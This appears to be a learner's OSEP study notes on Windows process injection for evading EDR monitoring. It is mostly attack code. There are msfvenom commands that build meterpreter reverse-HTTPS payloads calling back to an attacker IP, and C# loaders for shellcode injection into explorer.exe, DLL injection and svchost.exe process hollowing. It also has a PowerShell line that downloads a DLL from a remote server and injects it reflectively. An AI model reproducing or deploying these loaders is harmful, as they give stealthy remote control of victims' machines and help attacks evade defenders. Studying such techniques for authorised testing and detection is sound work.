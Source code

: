 ## Process Injection

Principle here is fairly simple. A Windows process has some virtual memory allocated to it, and some threads running within it that execute tasks and share that same memory. It is possible to invoke Win32 API calls to create a thread in a Windows process remotely from another process. Therefore we can get shellcode to execute, and from the perspective of an EDR or similar monitoring tool appear as if it is being run from an entirely different process than the one we started with.

A common approach to EDR detections is to flag processes behaving atypically. It is normal for `explorer.exe` to read a large number of files, less so for `notepad.exe`. It isn't unheard of for `svchost.exe` to make network connections, `powershell.exe` on the other hand... by injecting into the appropriate processes we can make our exploits fit normal application behaviour.

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f csharp
```

```csharp
using System;
using System.Runtime.InteropServices;
namespace Inject
{
    class Program
    {
        // Open process is about getting a handle from which to execute subsequent actions
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        // The API call to allocate some memory for our remote thread to make use of
        [DllImport("kernel32.dll")]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        // The API call to write our payload into the memory we just prepared
        [DllImport("kernel32.dll")] 
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        // The API call to create a new thread that executes the shellocde we wrote
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            // Grab the PID of the process we'd like to inject into
            int pid = Process.GetProcessesByName("explorer")[0].id;
            // 0x001F0FFF is the hex representation of PROCESS_ALL_ACCESS
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            // IntPtr.Zero is the chosen starting address, it its in use the call will fail. Try making this null to let the API allocate the memory?
            // x1000: MEM_COMMIT, 0x3000: MEM_RESERVE, 0x40: PAGE_EXECUTE_READWRITE
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            // Shellcode generated from using msfvenom to create a staged payload and output in csharp format
            byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc... };
            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```

## DLL Injection

A variant on the above would be to load a DLL into the remote process in its entirety, rather than just some shellcode. Potentially more flexible. Instead of embedding our shellcode as a byte array in our payload program we instead just host a DLL locally on a webserver to be grabbed at runtime. The DLL is generated by `msfvenom` as per:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```


```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
        lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
        dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
        SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);
        static void Main(string[] args)
        {
            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";
            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
            int pid = Process.GetProcessesByName("explorer")[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }
    }
}
```

## Reflective DLL Injection

Breaking down how reflective DLL injection works is beyond the scope of OSEP. Although should look more into it since it seems pretty cool. In a very vague hand-wavy way it seems to be about loading a DLL, without loading a DLL, which is to say we create all the mappings to make the DLL available to our process, but without invoking the API call to load the relevant library, and thereby being just a little more subtle.

The following Powershell script will grab the target DLL from our remote web server just as before, however this time instead of manually loading the DLL ourselves leveraging Win32 API calls, we will lean into the Powershell cmdlet `Invoke-ReflectivePEInjection` to reflectively inject the DLL into our desired process.
```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll')
$procid = (Get-Process -Name explorer).Id

Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

## Process Hollowing

Sometimes it is beneficial for us to have a process we can inject into that has none of the normal activities of that process happening within it. A notable example would be `svchost.exe`. We would love to run our paylaods from inside it, since making network connections is not out of the ordinary for this process. However, it exits as soon as we start it by nature of the program. To make it persistent and useful we need to overwrite its ordinary behaviour. The idea is simple enough:

1. Create the process, passing a flag at create time to suspend it
2. Locate the virtual address of the entrypoint of the remote process
3. Overwrite that memory with our shellcode, ie. 'Hollowing out' the process, leaving nothing but our payload
4. Start the suspended process

```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace Hollow
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
        static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        private static extern int ZwQueryInformationProcess(IntPtr hProcess, int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, uint ProcInfoLen, ref uint retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint ResumeThread(IntPtr hThread);

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public IntPtr lpReserved;
            public IntPtr lpDesktop;
            public IntPtr lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr Reserved1;
            public IntPtr PebAddress;
            public IntPtr Reserved2;
            public IntPtr Reserved3;
            public IntPtr UniquePid;
            public IntPtr MoreReserved;
        }

        static void Main(string[] args)
        {
            // Create our svchost.exe process in a suspended state, make sure to extract basic useful information from it needed
            // to calculate offsets for finding its entrypoint.
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
            // Discover the address of the svchost.exe entrpoint
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
            // Write our payload into the location of the entrypoint
            byte[] buf = new byte[659] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8... }
            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
            // Start the thread to execute our shellocde
            ResumeThread(pi.hThread);
        }
    }
}
```
